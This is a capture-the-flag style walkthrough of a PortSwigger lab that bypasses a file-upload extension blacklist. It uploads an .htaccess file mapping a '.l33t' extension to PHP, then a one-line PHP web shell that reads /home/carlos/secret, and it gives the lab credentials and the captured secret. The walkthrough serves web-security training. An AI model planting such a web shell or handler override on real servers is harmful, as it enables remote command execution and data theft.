




[Source](https://portswigger.net/web-security/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass)
## Task
This lab contains a vulnerable image upload function. Certain file extensions are blacklisted, but this protection can be
bypassed due to a fundamental flaw in the blacklist configuration.

To solve this task, download a basic PHP web shell and use it to get the contents of the file `/home/carlos/secret`. Submit this secret using the button provided on the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`.
## Solution
Go to the site and log in to your account. We see that it is possible to upload an image.
Upload any image. In `Burp Suite`, go to `HTTP history`, click on filters and check `Images`. In the request history, find the `GET` request with our image. Send it to `Repeater`.


Now let's try to upload a PHP file and send this request to `Repeater`:



>Sorry, php files are not allowed

We cannot upload PHP files. Note that we are accessing `Server: Apache/2.4.41`. Change the `filename` parameter to `.htaccess` and the `Content-Type` header to `text/plain`. And replace the PHP code with:
```Request
AddType application/x-httpd-php .l33t
```
Send the request. Make sure the file has been uploaded to the server.



>The file avatars/.htaccess has been uploaded.

After that, return this request to its original form and change the `filename` parameter to `exploit.l33t`
```PHP
<?php echo system($_GET['command']); ?>
```



Now move on to the request that uploads the image to the page. In the first line of the request we add:
```URL
/files/avatars/exploit.l33t?command=cat+/home/carlos/secret
```



```Secret
i5JoNiwH7AfZA47402Vw3dvy8yzYa6pb
```


## How it works
1. **There is a "bad" filter.**
The server simply prohibits files with the `.php` extension, thinking that this is enough.
2. **But the folder is allowed to be "configured".**
Apache allows reading _every_ uploaded file as a possible `.htaccess`.
In such a file, you can specify the `AddType` directive, thereby stating: "Files with the extension `.l33t` are PHP scripts."
<div style="page-break-after: always;"></div>

3. **Two downloads - and the protection is bypassed.**

| Step | What to download | Result |
| --- | ----------------------------------------------------- | -------------------------------------------- |
| ① | `.htaccess` with `AddType application/x-httpd-php .l33t` | Now Apache treats `.l33t` as PHP |
| ② | `exploit.l33t` (a regular web shell) | The "extensions" filter is happy, but Apache will execute the file as PHP |
4. **Result.**
The browser accesses `/files/avatars/exploit.l33t` → Apache sees the "PHP type", executes the code, the file outputs the contents of `/home/carlos/secret`.
✔️ The filter was "by extension", and we added a new "allowed" extension ourselves. Therefore, the protection collapsed.